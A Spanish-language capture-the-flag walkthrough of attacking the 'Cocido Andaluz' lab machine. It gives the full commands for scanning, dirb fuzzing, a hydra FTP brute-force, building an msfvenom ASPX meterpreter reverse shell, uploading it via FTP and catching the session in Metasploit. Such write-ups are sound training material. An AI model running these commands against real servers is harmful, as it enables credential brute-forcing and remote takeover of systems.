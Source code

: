 # Webshell ASPX en Servidor Microsoft IIS – OPCIÓN 2

Maquinas que voy a utilizar Kali Linux y Cocido Andaluz https://thehackerslabs.com/cocido-andaluz/

<aside>
💡

Gran Parte de este documento es examante igual al anterior con el mismo titulo . Pero en este caso vamos a utilizar un archivo malicioso creado con msfvenom para conseguir una intrusión subiéndolo por FTP.

</aside>

Vamos a intentar obtener **intrusión remota** en un servidor Microsoft IIS mediante un **archivo malicioso con extensión aspx**.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2050.png)

```bash
ping -c 1 10.0.3.19  
```

![image.png](./imagenes/image%2051.png)

El **ttl=128** nos informa que es una maquina **Windows.**

```bash
nmap -p- -sS -sV -sC -min-rate=5000 -n -vvv -Pn 10.0.3.19 
```

![image.png](./imagenes/image%2052.png)

- Provamos la IP en el navegador
    
    ![image.png](./imagenes/image%2053.png)
    
- Hacemos **Fuzzing Web con la herramienta dirb.**
    
    ```bash
    dirb [http://10.0.3.19/](./imagenes/http://10.0.3.19/)
    ```
    
    ![image.png](./imagenes/image%2054.png)
    

- Vamos a mirar que puede ser esto.
    
    ![image.png](./imagenes/image%2055.png)
    
    Por aquí parece que no vemos nada , lo dejamos en pausa y seguimos intentándolo de otra manera.
    
- Vamos  a ver de nuevo la enumeración que hemos hecho con nmap.
    
    ![image.png](./imagenes/image%2056.png)
    
    Vemos que tiene abierto el **puerto 21** con un **servicio ftp**. 
    
- Le vamos a hacer un ataque de fuerza bruta con **hydra** aunque no sepamos el usuario y la contraseña.
    
    ```bash
    hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt ftp://10.0.3.19
    ```
    
    ![image.png](./imagenes/image%2057.png)
    
    <aside>
    💡
    
    Como vemos estamos usando **distintos diccionarios** para **Usuario** y para **Password**.
    
    </aside>
    

- Con las credenciales que hemos conseguido vamos a entrar por FTP.
    
    **También podríamos probar que no será nuestro caso como login `anonymous` y pass en blanco.**
    
    ```bash
    ftp 10.0.3.19 
    ```
    
    ![image.png](./imagenes/image%2076.png)
    
    **En algunos sitios** podemos encontrarnos con que el **contenido del FTP** esta **vinculado** al **contenido del puerto 80** (la pagina Web). Esto lo **podemos utilizar** para **subir archivos** y poder **verlos desde el navegador**.
    
- Vamos a crear un archivo malicioso con msfvenom.
    
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.4 PORT 4444 -f aspx -o shell.aspx 
    ```
    
    ![image.png](./imagenes/image%2077.png)
    
- Lo subimos al FTP desde el terminal conectado al FTP.
    
    `put shell.aspx`
    
    ![image.png](./imagenes/image%2078.png)
    
    <aside>
    💡
    
    ### **Comandos básicos en un FTP**.
    
    1. **Navegación en Directorios:**
        - `ls` o `dir`: Lista los archivos y directorios en el directorio actual.
        - `cd [directorio]`: Cambia al directorio especificado.
        - `pwd`: Muestra el directorio actual.
        - `cd ..`: Retrocede al directorio padre.
    2. **Transferencia de Archivos:**
        - `get [archivo]`: Descarga un archivo desde el servidor al equipo local.
        - `mget [archivos]`: Descarga múltiples archivos a la vez.
        - `put [archivo]`: Sube un archivo desde el equipo local al servidor.
        - `mput [archivos]`: Sube múltiples archivos a la vez.
    3. **Gestión de Archivos:**
        - `delete [archivo]`: Elimina un archivo del servidor.
        - `rename [archivo_antiguo] [archivo_nuevo]`: Cambia el nombre de un archivo en el servidor.
        - `mkdir [directorio]`: Crea un nuevo directorio en el servidor.
        - `rmdir [directorio]`: Elimina un directorio vacío del servidor.
    4. **Opciones Generales:**
        - `quit` o `bye`: Cierra la sesión y desconecta del servidor FTP.
        - `help` o `?`: Muestra ayuda o información sobre comandos disponibles.
    </aside>
    
- Nos ponemos a la escucha con msfconsole (Metssploit)
    
    ![image.png](./imagenes/image%2079.png)
    

- Nos ponemos a la escucha con Metasploit con **multi/handler**
    
    `use multi/handler`
    
- Miramos las opciones y completamos lo que necesitemos.
    
    `show options`
    
    `set LHOST 10.0.3.4`
    
    ![image.png](./imagenes/image%2080.png)
    

- Ahora tenemos que tener en cuenta un detalle en el archivo malicioso usamos el Payload `windows/meterpreter/reverse_tcp` por tanto debemos cargarlo en el **multi/handler.**
    
    `set PAYLOAD windows/meterpreter/reverse_tcp`
    
    ![image.png](./imagenes/image%2081.png)
    
- Vuelvo a ejecutar **show options**, vemos que se nos cargar el payload
    
    `show options`
    
    ![image.png](./imagenes/image%2082.png)
    
- Ejecutamos, poniéndonos a la escucha.
    
    `run`
    
    ![image.png](./imagenes/image%2083.png)
    
- Nos vamos al navegador y ejecutamos desde hay muestro archivo malicioso **shell.aspx**
    
    ![image.png](./imagenes/5f06ac05-1cdb-45d0-b194-14730ffb8abd.png)
    
- En el Metasploit se nos a abierto una sesión de  meterpreter.
    
    ![image.png](./imagenes/image%2084.png)
    
    - Ya que estamos en windows ejecuto una Shell. Para salir de la Shell al Meterpreter escribiremos **exit**.
        
        `shell`
        
        `whoami`
        
        `exit`
        
        ![image.png](./imagenes/image%2085.png)